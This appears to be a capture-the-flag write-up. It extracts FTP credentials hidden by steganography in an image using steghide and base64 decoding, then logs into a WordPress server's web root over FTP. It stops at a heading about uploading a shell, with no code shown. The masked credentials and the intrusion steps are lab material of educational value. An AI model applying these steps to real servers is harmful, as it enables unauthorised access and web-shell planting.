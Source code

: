 ```
Found passphrase: "****************"
```
## Extracting embedded data

#### Steghide command

```
steghide extract -sf austrailian-bulldog-ant.jpg
```

#### Viewing user-pass-ftp.txt

```
RlRQLU********************FuZnRwClBBU1M6IDEyM2FkYW5hY3JhY2s=
```

#### Decoding the data

```
cat user-pass-ftp.txt | base64 -d
```

```
FTP-LOGIN
USER: *******
PASS: ************** 
```
## Connectting to ftp

Using the credentials that we just decoded

#### Listing the dir

```
ftp> passive
Passive mode on.
ftp> ls
227 Entering Passive Mode (10,10,82,1,146,77).
150 Here comes the directory listing.
drwxr-xr-x    2 0        0            4096 Jan 14 16:49 **************
-rw-r--r--    1 1001     1001          405 Feb 06  2020 index.php
-rw-r--r--    1 1001     1001        19915 Feb 12  2020 license.txt
-rw-r--r--    1 1001     1001         7278 Jun 26  2020 readme.html
-rw-r--r--    1 1001     1001         7101 Jul 28  2020 wp-activate.php
drwxr-xr-x    9 1001     1001         4096 Dec 08 22:13 wp-admin
-rw-r--r--    1 1001     1001          351 Feb 06  2020 wp-blog-header.php
-rw-r--r--    1 1001     1001         2328 Oct 08  2020 wp-comments-post.php
-rw-r--r--    1 0        0            3194 Jan 11 09:55 wp-config.php
drwxr-xr-x    4 1001     1001         4096 Dec 08 22:13 wp-content
-rw-r--r--    1 1001     1001         3939 Jul 30  2020 wp-cron.php
drwxr-xr-x   25 1001     1001        12288 Dec 08 22:13 wp-includes
-rw-r--r--    1 1001     1001         2496 Feb 06  2020 wp-links-opml.php
-rw-r--r--    1 1001     1001         3300 Feb 06  2020 wp-load.php
-rw-r--r--    1 1001     1001        49831 Nov 09 10:53 wp-login.php
-rw-r--r--    1 1001     1001         8509 Apr 14  2020 wp-mail.php
-rw-r--r--    1 1001     1001        20975 Nov 12 14:43 wp-settings.php
-rw-r--r--    1 1001     1001        31337 Sep 30  2020 wp-signup.php
-rw-r--r--    1 1001     1001         4747 Oct 08  2020 wp-trackback.php
-rw-r--r--    1 1001     1001         3236 Jun 08  2020 xmlrpc.php
226 Directory send OK.
```
#### Uploading a shell
